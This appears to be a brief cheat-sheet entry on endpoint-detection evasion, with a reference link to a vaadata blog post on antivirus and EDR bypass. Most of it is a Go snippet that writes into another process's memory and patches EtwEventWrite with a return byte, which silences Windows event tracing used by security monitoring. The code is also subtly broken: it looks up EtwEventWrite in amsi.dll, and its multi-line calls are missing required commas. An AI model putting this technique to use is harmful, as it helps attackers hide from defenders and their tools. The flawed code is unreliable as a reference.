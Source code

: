 # Go

```go
pid := uint32(<PID>)
amsidll, _ := syscall.LoadLibrary("amsi.dll")
procEtwEventWrite, _ := syscall.GetProcAddress(amsidll, "EtwEventWrite")
patch := []byte{0xc3}

pHandle := windows.OpenProcess(
	windows.PROCESS_VM_WRITE|windows.PROCESS_VM_OPERATION,
	false,
	pid
)

var numberOfBytesWritten uintptr
err := windows.WriteProcessMemory(
	pHandle,
	procEtwEventWrite,
	&patch[0],
	uintptr(len(patch)),
	&numberOfBytesWritten
)
```

---
## References

### vaadata

- [vaadata: Antivirus and EDR Bypass Techniques](https://www.vaadata.com/blog/antivirus-and-edr-bypass-techniques/)